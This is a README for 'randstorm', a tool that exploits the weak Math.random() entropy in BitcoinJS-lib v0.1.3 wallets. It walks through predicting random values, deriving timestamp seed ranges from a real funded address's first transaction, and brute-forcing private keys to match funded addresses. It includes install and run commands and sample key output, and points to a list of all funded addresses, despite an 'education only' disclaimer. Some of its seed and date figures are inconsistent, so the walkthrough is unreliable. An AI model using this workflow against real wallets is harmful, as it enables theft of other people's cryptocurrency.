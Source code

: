 Between 2010 and 2015, many exchanges and websites relied on BitcoinJS-lib v0.1.3 for Bitcoin wallet generation. The issue was that many browsers didn't use window.crypto.random, which lead to entropy being collected from Math.random(). <br>

```javascript
	if (this.pool == null) {  // Check if the pool is not already initialized
		this.poolSize = 256;
		this.pool = new Array(this.poolSize);  // Create an array to store random values
		this.pptr = 0;  // Initialize the pool pointer to 0
		var t;  // Declare a variable to store temporary random values

		// Fill the pool with random values
		while (this.pptr < this.poolSize) {
			t = Math.floor(65536 * Math.random());  // Generate a random 16-bit value
			this.pool[this.pptr++] = t >>> 8;  // Store the high byte of the 16-bit value
			this.pool[this.pptr++] = t & 255;  // Store the low byte of the 16-bit value
			}

		this.pptr = 0;  // Reset the pool pointer to 0
		this.seedTime();  // Call a function (not provided) to seed the random values based on time
		}
  ```
The provided JavaScript code enters a loop where it generates random 16-bit values (t) and fills the array by storing the high and low bytes of each 16-bit value consecutively. This process continues until the pool is full. After filling the pool, the pointer is reset to 0, and a function seedTime() is called to further seed the random values based on time. In summary, this code creates and populates a pool of 256 'random' values using a simple algorithm based on random number generation and bitwise operations.

```javascript
t = Math.floor(65536 * Math.random());
```
Math.random() generates a pseudo-random floating-point number in the range 0 and 1: 0.5532989501953125
The value 0.5532989501953125 is scaled by 65536 and then rounded down to the nearest integer using Math.floor().
Output: 36261
```javascript
this.pool[this.pptr++] = t >>> 8;  // Store the high byte of the 16-bit value
this.pool[this.pptr++] = t & 255;  // Store the low byte of the 16-bit value
 ```
Subsequently, the code separates this 16-bit integer into two 8-bit values (high byte and low byte) using bitwise operations. The line this.pool[this.pptr++] = t >>> 8; stores the high byte of t (right-shifting by 8 bits), and this.pool[this.pptr++] = t & 255; stores the low byte of t (using a bitwise AND operation with 255, which is equivalent to binary 11111111).

To turn the 16-bit integer 36261 into two 8-bit values (high byte and low byte), you can use bitwise operations. In binary, 36261 is represented as 1000110111000101. The high byte is the first 8 bits (10001101), and the low byte is the last 8 bits (11000101).

The high byte (first 8 bits) is 10001101, which is 141 
The low byte (last 8 bits) is 11000101, which is 197 

##  Math.random() predictability 

[![Demo Video](https://img.youtube.com/vi/VIDEO_ID/0.jpg)](ttps://www.youtube.com/watch?v=_Iv6fBrcbAM)

Using [v8-randomness-predictor](https://github.com/PwnFunction/v8-randomness-predictor) the program uses z3 to predict Math.random values. 

```bash
Sequence = [0.6297969575631002, 0.6074412953668151, 0.9919811223107806, 0.48870040262493863, 0.4398739265503919]

Next Sequence: 0.3283496320042738

Updated Sequence: [0.6074412953668151, 0.9919811223107806, 0.48870040262493863, 0.4398739265503919, 0.3283496320042738]

Next Sequence: 0.37620797979266385

Updated Sequence: [0.9919811223107806, 0.48870040262493863, 0.4398739265503919, 0.3283496320042738, 0.37620797979266385]

Next Sequence: 0.7982242070609398
```
```python
Array.from(Array(5), Math.random)
(5) [0.6297969575631002, 0.6074412953668151, 0.9919811223107806, 0.48870040262493863, 0.4398739265503919]
Math.random()
0.3283496320042738
Math.random()
0.37620797979266385
Math.random()
0.7982242070609398
Math.random()
0.6684147152303501
```

<img src="GenerateValues.png" alt="GenerateValues">

## Vulnerable Wallets

This vulnerability is only for wallets that were created using [BitcoinJS-lib v0.1.3](https://github.com/bitcoinjs/bitcoinjs-lib/releases/tag/0.1.3). Since we can't determine when the wallet was generated or even if the wallet was generated using BitcoinJS-lib v0.1.3, it makes things very difficult. 

We can examine when the first transaction took place using the blockchain. Using Get_First_Transaction.py we can get the first transaction date using a free API call on [btcscan.org](https://btcscan.org/). If the address was generated on December 24, 2012, 2:44:56 AM, then using the [Unix epoch time](https://www.epochconverter.com/) we can see that the seed = 55793394904000. This is the Unix epoch time in milliseconds. 

```bash
Address: 1NUhcfvRthmvrHf1PAJKe5uEzBGK44ASBD
First Transaction: 2014-03-16 23:48:51 GMT -7
Current Balance: 1.9999 BTC
```
Convert the date 2014-03-16 23:48:51 GMT -7 to Unix epoch time in linux with command:

```bash
date -d "2014-03-16 23:48:51 GMT -7" +"%s" | awk '{print $1 * 1000}'
```
1395038931000

Now, get the date from whatever time period you want to try before March 3, 2014.

March 1, 2014 = 1393635661000

1395042082000 - 1393635661000 = 1.4 Billion Seeds

## Generate Seeds

Using the implementation of SecureRandom(), set the seed to March 1, 2014 = 1393635661000 and generate keys incrementally until the date of the first transaction:

Seed: 1310691661000 <br>
Hex: 6ad2d763712eae6428e2922d7181f92fb70d0e564d1dd38dd0aa9b34b844c0cb <br>
P2PKH: 1JbryLqejpB17zLDNspRyJwjL5rjXW7gyw<br>

Seed: 1310691661001 <br>
Hex: fb6ad847a48da87b332b565b548347078a1b9890b9c352a4d9993ae09c189fa6 <br>
P2PKH: 1273EG6iByUWoDY8PrCBEhJsEBLEzk1rEi<br>
...
## Check for a Match 

The script generates the private key from the seed, converts it to the Bitcoin address and checks if it matches. 

## Download & Installing

Download and install the latest version of Python. 

```bash
git clone https://github.com/RandstormBTC/randstorm/
cd randstorm
pip install -r requirements.txt
```

Run On Windows (cmd / powershell):
```bash
python randstorm.py
```
Run On Linux (debian):
```bash
python3 randstorm.py
```
## Download Addressess 
All funded Bitcoin addresses can be downloaded at:

http://addresses.loyce.club/

## Disclaimer
This software is for education purporses only and should not be configured and used to find (Bitcoin/Altcoin) address hash (RIPEMD-160) collisions and use (steal) credit from third-party (Bitcoin/Altcoin) addresses. This mode might be allowed to recover lost private keys of your own public addresses only.

Another mostly legal use case is a check if the (Bitcoin/Altcoin) addresses hash (RIPEMD-160) is already in use to prevent yourself from a known hash (RIPEMD-160) collision and double use. Some configurations are not allowed in some countries.

## Questions and Comments

Please feel free to share any questions. This is a work in progress and replicating the exact SecureRandom() function in python from Javascript has not been very easy. There still may be some issues...

## Contributors 

Special thanks to ChatGPT and DeepSeek Coder for the help. 

## Sources:

 <https://www.unciphered.com/blog/randstorm-you-cant-patch-a-house-of-cards>

 <https://jandemooij.nl/blog/math-random-and-32-bit-precision/>

 <https://medium.com/@betable/tifu-by-using-math-random-f1c308c4fd9d>

<https://security.stackexchange.com/questions/84906/predicting-math-random-numbers>

<https://lwn.net/Articles/666407/>

<https://ifsec.blogspot.com/2012/09/of-html5-security-cross-domain.html>

<https://github.com/PwnFunction/v8-randomness-predictor/tree/main>

## Donate:
BTC: bc1q2rqz0mzwxdm0umhlllsyd5rt30uh8kswhqcnqp
